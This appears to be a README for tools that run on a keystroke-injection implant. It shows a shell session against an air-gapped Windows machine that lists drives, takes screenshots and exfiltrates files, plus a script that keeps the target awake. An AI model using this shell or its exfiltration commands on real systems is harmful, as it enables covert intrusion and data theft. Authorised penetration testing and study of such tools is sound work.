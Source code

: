 # Key Croc Tools

### Croc Shell

Allows the Croc to establish a reverse-shell on air-gapped systems. The Croc will act in `ATTACKMODE HID STORAGE` to collect the output of the commands and loot.

	root@croc:~# python udisk/tools/crocshell_via_storage.py 
	Starting the shell ...
	CrocSHELL> D:

	CrocSHELL> ls
	Verzeichnis: D:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        19.01.2023     09:32                000_BreachCompilation                       
	d-----        03.12.2022     22:36                3CX                                         
	d-----        26.01.2022     08:09                Blog                                        
	d-----        03.04.2022     12:26                Combs_1                                     
	d-----        25.01.2022     15:29                DFL                                         
	d-----        26.01.2022     00:30                DFLTask                                     
	d-----        10.02.2022     13:39                Honor 8S                                    
	d-----        23.10.2016     08:52                plaso-1.5.1                                 
	d-----        26.01.2022     07:53                ZZZ_FONTS                                   
	-a----        04.05.2023     09:57         487556 173.jpg                                     
	-a----        04.05.2023     10:12         206541 173.mp3                                     
	-a----        04.05.2023     13:44        1415029 173.mp4                                     
	-a----        25.01.2023     20:11           5050 banner.txt                                  
	-a----        17.02.2022     14:08     1994995712 paladin_edge_64.iso                         
	-a----        03.07.2022     09:27        1577592 WordRepair.exe                              
	CrocSHELL> L:

	CrocSHELL> ls
	Verzeichnis: L:\


	Mode                 LastWriteTime         Length Name                                        
	----                 -------------         ------ ----                                        
	d-----        14.07.2021     12:14                CDFE                                        
	d-----        12.01.2022     16:12                CDFP                                        
	d-----        13.08.2020     08:33                DFL Manuals                                 
	d-----        20.03.2020     14:01                JPG_Hi_Res                                  
	d-----        10.06.2021     18:38                PaWASP                                      
	d-----        11.02.2023     13:50                UnFOUNDchk                                  
	------        21.08.2021     20:06         126205 20210821_200626_FLASH_25010.dat.gz          
	------        20.10.2020     15:35          90539 5c21487e-3812-4498-b66a-eafe679bc4c8.jpg    
	------        01.04.2021     11:16         144368 7a39a04273-9fc4-4e18-b256-9c489b9c6a1c.jpeg 
	------        01.04.2021     11:16         128311 7a61adbd-8e52-4bad-9203-fc842d4069d2.jpeg   
	------        04.11.2020     18:52         627966 hddsuperclone_2.2.18-1_amd64.deb            
	------        27.04.2023     15:33          70553 PawnP1_01.png                               
	------        27.04.2023     15:51          19861 Pawnp1_02.png                               

	CrocSHELL> peek
	E:\screenshot_5.jpg ... saved

	CrocSHELL> exfil PawnP1_01.png

	CrocSHELL> help

	AVIALABLE COMMANDS:
	--------------------
	exit .... End shell 
	exfil ... Exfiltrate file - e.g.: exfil my_secret_passwords.docx
	peek .... Take a screenshot

	CrocSHELL> exit
	root@croc:~# 

### Prevent the system to go to sleep

Sends a `SHIFT` keypress each 50 seconds if there is no keyboard activity

	root@croc:~# python udisk/tools/prevent_sleep.py 
	Sending SHIFT keypress for the 1. time!
	Sending SHIFT keypress for the 2. time!
	...
	Sending SHIFT keypress for the 897. time!
	^C
	root@croc:~#

You can also run the command in background and log out 

	root@croc:~# python udisk/tools/prevent_sleep.py &
	[1] 9219
	root@croc:~#

